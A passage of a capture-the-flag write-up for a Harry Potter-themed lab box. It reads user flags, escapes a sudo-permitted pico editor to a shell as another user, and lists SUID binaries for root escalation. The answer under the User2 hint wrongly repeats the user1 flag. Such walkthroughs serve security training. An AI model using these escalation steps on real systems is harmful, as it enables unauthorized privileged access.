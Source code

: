 ```bash
drwx------ 3 harry harry 4.0K Nov 26  2020 .gnupg
drwxrwxr-x 3 harry harry 4.0K Jun 18 23:58 .local
-rw-r----- 1 harry harry  807 Apr  4  2018 .profile
-rw-r----- 1 harry harry   40 Nov 26  2020 user1.txt
harry@ip-10-10-234-114:~$ cat user1.txt
RME{th3-b0Y-wHo-l1v3d-f409da6f55037fdc}
harry@ip-10-10-234-114:~$ 
```


![image](https://github.com/user-attachments/assets/4b1fbfa9-18cb-40d2-9b07-415c5a83ae04)

<br>

> 1.2. <em>User2.txt</em> Hint : <em>She is a know it all and wants you to share her love for the metric system.</em><br><a id='1.2'></a>
>> <strong><code>RME{th3-b0Y-wHo-l1v3d-f409da6f55037fdc}</code></strong><br>
<p></p>

```bash
harry@ip-10-10-234-114:~$ sudo -u hermonine pico
^R^X
reset; bash 1>&0 2>&0
```


```bash
hermonine@ip-10-10-234-114:~$ ls
user2.txt
hermonine@ip-10-10-234-114:~$ cat user2.txt
RME{p1c0-iZ-oLd-sk00l-nANo-64e977c63cb574e6}
```

```bash
hermonine@ip-10-10-234-114:~$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
-rwsr-xr-x 1 root root 8816 Nov 26  2020 /srv/time-turner/swagger
-rwsr-xr-x 1 root root 166056 Apr  4  2023 /usr/bin/sudo
-rwsr-xr-x 1 root root 31032 Feb 21  2022 /usr/bin/pkexec
-rwsr-xr-x 1 root root 53040 Feb  6  2024 /usr/bin/chsh
-rwsr-xr-x 1 root root 85064 Feb  6  2024 /usr/bin/chfn
-rwsr-xr-x 1 root root 68208 Feb  6  2024 /usr/bin/passwd
-rwsr-xr-x 1 root root 88464 Feb  6  2024 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 44784 Feb  6  2024 /usr/bin/newgrp
-rwsr-xr-x 1 root root 22840 Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-- 1 root messagebus 51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 159304 Jan 15 20:02 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 477672 Apr 11 12:16 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 39144 Apr  9  2024 /bin/umount
-rwsr-xr-x 1 root root 39144 Mar  7  2020 /bin/fusermount
-rwsr-xr-x 1 root root 67816 Apr  9  2024 /bin/su
-rwsr-xr-x 1 root root 55528 Apr  9  2024 /bin/mount
-rwsr-xr-x 1 root root 85064 Feb  6  2024 /snap/core20/2501/usr/bin/chfn
-rwsr-xr-x 1 root root 53040 Feb  6  2024 /snap/core20/2501/usr/bin/chsh
-rwsr-xr-x 1 root root 88464 Feb  6  2024 /snap/core20/2501/usr/bin/gpasswd
-rwsr-xr-x 1 root root 55528 Apr  9  2024 /snap/core20/2501/usr/bin/mount
-rwsr-xr-x 1 root root 44784 Feb  6  2024 /snap/core20/2501/usr/bin/newgrp
-rwsr-xr-x 1 root root 68208 Feb  6  2024 /snap/core20/2501/usr/bin/passwd
-rwsr-xr-x 1 root root 67816 Apr  9  2024 /snap/core20/2501/usr/bin/su
-rwsr-xr-x 1 root root 166056 Apr  4  2023 /snap/core20/2501/usr/bin/sudo
-rwsr-xr-x 1 root root 39144 Apr  9  2024 /snap/core20/2501/usr/bin/umount
-rwsr-xr-- 1 root systemd-resolve 51344 Oct 25  2022 /snap/core20/2501/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 477672 Jan  2  2024 /snap/core20/2501/usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 180752 Jan 17 08:49 /snap/snapd/23771/usr/lib/snapd/snap-confine
hermonine@ip-10-10-234-114:~$ 
```
